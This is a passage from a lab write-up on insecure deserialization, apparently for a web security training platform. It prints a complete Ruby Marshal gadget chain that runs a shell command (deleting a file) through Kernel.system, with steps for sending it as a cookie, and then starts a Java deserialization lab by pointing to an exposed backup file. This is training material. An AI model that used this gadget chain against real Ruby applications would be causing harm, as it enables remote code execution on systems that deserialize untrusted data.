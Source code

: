     # Autoload the required classes
    Gem::SpecFetcher
    Gem::Installer

    # prevent the payload from running when we Marshal.dump it
    module Gem
    class Requirement
        def marshal_dump
        [@requirements]
        end
    end
    end

    wa1 = Net::WriteAdapter.new(Kernel, :system)

    rs = Gem::RequestSet.allocate
    rs.instance_variable_set('@sets', wa1)
    rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

    wa2 = Net::WriteAdapter.new(rs, :resolve)

    i = Gem::Package::TarReader::Entry.allocate
    i.instance_variable_set('@read', 0)
    i.instance_variable_set('@header', "aaa")


    n = Net::BufferedIO.allocate
    n.instance_variable_set('@io', i)
    n.instance_variable_set('@debug_output', wa2)

    t = Gem::Package::TarReader.allocate
    t.instance_variable_set('@io', n)

    r = Gem::Requirement.allocate
    r.instance_variable_set('@requirements', t)

    payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
    puts Base64.encode64(payload)

Go to [Ruby Online Compiler](https://www.jdoodle.com/execute-ruby-online), choose language version `2.6.5` and compile this code. Copy the output and use it as the cookie value along with any request to solve the lab.

### LAB: Developing a custom gadget chain for Java deserialization
Crawl through the source code, found a suspicous comment:
    
    <!-- <a href=/backup/AccessTokenUser.java>Example user</a> -->

Visit `/backup`, found the `ProductTemplate.java`:

    package data.productcatalog;

    import common.db.JdbcConnectionBuilder;
